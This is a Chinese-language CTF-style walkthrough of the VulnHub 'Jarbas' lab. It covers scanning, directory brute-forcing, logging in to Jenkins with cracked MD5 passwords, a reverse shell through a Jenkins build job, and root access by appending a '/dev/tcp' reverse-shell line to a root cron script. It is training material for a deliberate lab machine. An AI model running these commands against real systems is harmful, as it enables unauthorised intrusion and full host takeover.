靶场下载地址：https://download.vulnhub.com/jarbas/Jarbas.zip

下载解压导入到虚拟机

**环境：Windows  VMware Kali**

**连接方式： NAT**


**评级：简单**

# 1. 信息收集

**信息收集要收集完全，宁愿多用点时间，否则后面打不动的时候还要再重新收集，这样太浪费时间。我们尽可能的按照流程第一次收集全。**

## 1.1 主机发现


```
 nmap -sn 192.168.125.1/24
```

## 1.2 端口扫描

```
nmap -min-rate 10000 -p- 192.168.125.138
```

**扫描结果：**

```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 21:32 EDT
Nmap scan report for 192.168.125.139
Host is up (0.00049s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
8080/tcp open  http-proxy
MAC Address: 00:0C:29:6A:D4:AE (VMware)
```


## 1.3 服务扫描：

```
nmap -sT -sV 192.168.125.139 -O -p 22,80,3306,8080
```

扫描结果：

```shell

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 21:34 EDT
Nmap scan report for 192.168.125.139
Host is up (0.00061s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
MAC Address: 00:0C:29:6A:D4:AE (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```


## 1.4 NMAP 简单漏洞扫描

通过 nmap 自带的扫描脚本可以扫描一些常见的漏洞，由于脚本比较多，扫描速度非常慢。

```shell
nmap -script=vuln -p 22,80,3306,8080 192.168.125.139
```


```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 21:38 EDT
Nmap scan report for 192.168.125.139
Host is up (0.00041s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
|_http-trace: TRACE is enabled
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum:
|_  /icons/: Potentially interesting folder w/ directory listing
3306/tcp open  mysql
8080/tcp open  http-proxy
| http-enum:
|_  /robots.txt: Robots file
MAC Address: 00:0C:29:6A:D4:AE (VMware)
```


优先级排序 22<3306<80=8080


8080端口服务是 jenkins ：



**尝试弱口令登录失败。**


80 端口服务：




## 1.5 目录爆破：


```
gobuster dir -u http://192.168.125.139 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html
```

不指定后缀扫描不到东西，我们指定两个后缀名 php和 html


扫描结果：

```shell

===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.139
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2023/05/08 04:08:46 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 207]
/index.html           (Status: 200) [Size: 32808]
/access.html          (Status: 200) [Size: 359]
/.html                (Status: 403) [Size: 207]
Progress: 658372 / 661683 (99.50%)
===============================================================
2023/05/08 04:09:58 Finished
===============================================================

```


访问 `access.html` 发现有价值的信息




解密MD5 

```
tiago:5978a63b4654c73c60fa24f836386d87    italia99
trindade:f463f63616cb3f1e81ce46b39f882fd5    marianna
eder:9b38e2b1e8b12f426b0d208a7ab6cb98    vipsu
```


用户名eder 密码 vipsu    登录 Jenkins


# 2. 漏洞利用

Jenkins 反弹shell


## 2.1 新建项目










## 2.2 生成 反弹shell 







## 2.3 kali 开启监听：

```
nc -lvnp 4444
```

##  2.4 开始部署：




接收到反弹shell

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.125.133] from (UNKNOWN) [192.168.125.139] 56654
bash: no job control in this shell
bash-4.2$ whoami
whoami
jenkins
```


# 3. 计划任务提权

```
sudo -l 
cat /etc/passwd
cat /etc/crontab
```


查看计划任务：




这个脚本是通过root用户运行的每隔 5 分钟就执行一次任务，我们可以通过在脚本中写入反弹shell ，即可获得root权限


查看此脚本：

```
rm -rf /var/log/httpd/access_log.txt
```


把反弹shell 加入到此脚本里面：


```
#注意端口不要冲突
echo "/bin/bash -i >& /dev/tcp/192.168.125.133/5555 0>&1" >> /etc/script/CleaningScript.sh
```


kali 开启监听：

```
nc -lvnp 5555
```


等待几分钟即可获取到 root 权限的 shell




当前目录就有 flag 

